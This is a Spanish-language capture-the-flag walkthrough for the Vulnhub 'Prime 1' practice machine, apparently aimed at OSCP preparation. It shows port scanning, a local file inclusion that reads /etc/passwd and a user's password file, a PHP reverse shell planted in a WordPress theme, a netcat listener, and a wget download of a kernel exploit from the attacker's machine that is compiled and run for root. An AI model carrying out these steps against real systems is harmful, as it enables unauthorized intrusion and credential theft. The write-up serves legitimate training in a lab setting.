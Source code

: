 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=230&height=80&lines=Prime_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/prime-1,358/

</br>

> Esta máquina está diseñada para aquellos que intentan prepararse para el examen OSCP. 

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/173474426-a673d820-8b68-40c9-89f6-4686e436978f.png"></h1>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![2](https://user-images.githubusercontent.com/75953873/173475187-1682b0c5-0c7e-410c-9455-98e8cd6c5e81.png)

IP host: `192.168.25.133`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv 192.168.25.133
```
![3](https://user-images.githubusercontent.com/75953873/173475468-fee78430-41f0-4a6f-a18d-5934250a6aac.png)

Puertos abiertos: [22,80]

- *Paso 3:* Escaneo agresivo para detectar servicios corriendo.
```
nmap -A 192.168.25.133
```
![4](https://user-images.githubusercontent.com/75953873/173476100-ae65ae3d-4a36-466c-aa98-fbc4fee2c738.png)

Servidor corriendo: **HTTP Apache**

- *Paso 4:* Recorrido de ruta: enumerar archivos .txt con Dirb.

URL: `http://192.168.25.133`

![5](https://user-images.githubusercontent.com/75953873/173476731-79f7a93a-f659-4563-9cfd-d1f271f16a90.png)

```
dirb http://192.168.25.133 -X .txt
```
![6](https://user-images.githubusercontent.com/75953873/173477255-427b51b9-6023-48d8-a0aa-fbb42aa4af16.png)

Archivo secreto: `http://192.168.25.133/secret.txt`

![7](https://user-images.githubusercontent.com/75953873/173477715-6d51f82c-21fe-42c4-854f-fc5f9ca5d17a.png)

Probar los comandos Fuzzing que proporciona el repositorio de Github, el objetivo es encontrar un parámetro para navegar dentro de él.

Comando fuzzy: `file`

![8](https://user-images.githubusercontent.com/75953873/173478463-cfd85ea0-4cdc-465c-95a1-79f699dcfd5a.png)

Unir la URL: `http://192.168.25.133/index.php?file=`

![9](https://user-images.githubusercontent.com/75953873/173478799-cd7249ce-8843-499b-917d-c43d22dcc4f4.png)

Archivo proporcionado: `location.txt`

URL completa: `http://192.168.25.133/index.php?file=location.txt`

![10](https://user-images.githubusercontent.com/75953873/173478934-d1f7d4ab-2b65-4666-87f9-346ebcae02b7.png)

El archivo `location.txt` da una pista para usar `secrettire360` como parámetro en otra página php aprovechando la vulnerabilidad de inclusión de archivos locales (LFI).

Localizar archivos `.php` con Dirb:
```
dirb http://192.168.25.133 -X .php
```
![11](https://user-images.githubusercontent.com/75953873/173479528-29899116-a8f6-4a6a-b435-1ebca5e8c50d.png)

Pista: `secrettire360`

URL completa: `http://192.168.25.133/image.php?secrettier360`

```
dirb http://192.168.25.133 -X .php `http://192.168.25.133/image.php?secrettier360` /usr/share/dirb/wordlists/extensions_common.txt
```
![12](https://user-images.githubusercontent.com/75953873/173480064-2e0d0446-d55b-4bbc-97d1-1e7b4fa919f1.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/etc/passwd`

El usuario `Saket` menciona que dentro de su directorio `/home/saket/` se encuentra el archivo `password.txt`.

![13](https://user-images.githubusercontent.com/75953873/173481350-5277704e-627a-4568-9ded-bf3f91e9a38f.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/home/saket/password.txt`

![14](https://user-images.githubusercontent.com/75953873/173481656-71110280-511b-4654-823f-1a818ed71a09.png)

**_Credenciales WordPress_**

Usuario: `victor`

Contraseña: `follow_the_ippsec`

URL login: `http://192.168.25.133/wordpress/wp-login.php`

![15](https://user-images.githubusercontent.com/75953873/173482220-0ac1e036-8fea-4224-a696-d31344dd3aa1.png)

- *Paso 5:* Escribir código malicioso PHP.

Apariencia **>** Editor de temas **>** secret.php

![16](https://user-images.githubusercontent.com/75953873/173482698-dbb9561f-e59e-41ef-82d9-8a2152341170.png)

Ruta del código PHP del reverse shell:

```
cat /usr/share/webshells/php/php-reverse-shell.php
```
Cambiar la línea `$ip` por la IP local de su máquina, el puerto lo establecen a `4444`. Guardar cambios **_'Update Files'_**.

![17](https://user-images.githubusercontent.com/75953873/173484877-992337aa-07ec-4e77-9911-3d2012f90cec.png)

- *Paso 6:* Obtener una reverse shell con Netcat.
```
nc -lvp 4444
```

Recargar URL: `http://192.168.25.133/wordpress/wp-content/themes/twentynineteen/secret.php`

![18](https://user-images.githubusercontent.com/75953873/173485293-44576e95-de83-4473-a5f7-bb5a11c5db44.png)

Extraer información de los ficheros `user.txt` y `password.txt` dentro del directorio `/home/saket`:
```
cd home && cd saket && ls 
cat user.txt && cat password.txt
```
![19](https://user-images.githubusercontent.com/75953873/173485677-7abb1021-7e79-4e87-ba5c-20cb4fffc4d2.png)

- *Paso 7:* Escalar privilegios: buscar exploit.

![20](https://user-images.githubusercontent.com/75953873/173485896-7949c037-0d58-4c15-b031-ea2413af4110.png)

Versión del kernel: `4.10.0-28-generic`

![21](https://user-images.githubusercontent.com/75953873/173487947-ee6f8a17-ab97-4f46-93f6-11cf43ed5e7f.png)

Repositorio del código: `https://github.com/kkamagui/linux-kernel-exploits/blob/master/kernel-4.10.0-28-generic/CVE-2017-16995/CVE-2017-16995.c`

Copiar el código y guardarlo con la extensión `kernel.c`.

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![22](https://user-images.githubusercontent.com/75953873/173488228-64eac9ac-e121-49f5-b84b-eea275f526ff.png)

Descargar el exploit en la ruta `/tmp` desde la sesión obtenida (**reverse shell**); compilar y dar permisos de escritrura, lectura y ejecucción.
```
cd /tmp
wget http://192.168.1.9/kernel.c
gcc kernel.c -o kernel
chmod 777 kernel
```
![23](https://user-images.githubusercontent.com/75953873/173488738-0392288d-4024-488b-9295-e4ea89066120.png)

Por último, explotar el kernel `./kernel` y extraer la key (flag) del fichero `root.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat root.txt
```
![24](https://user-images.githubusercontent.com/75953873/173489371-d5c4398b-a2a6-4222-89c0-07be64091c03.png)

**KEY:** b2b17036da1de94cfb024540a8e7075a

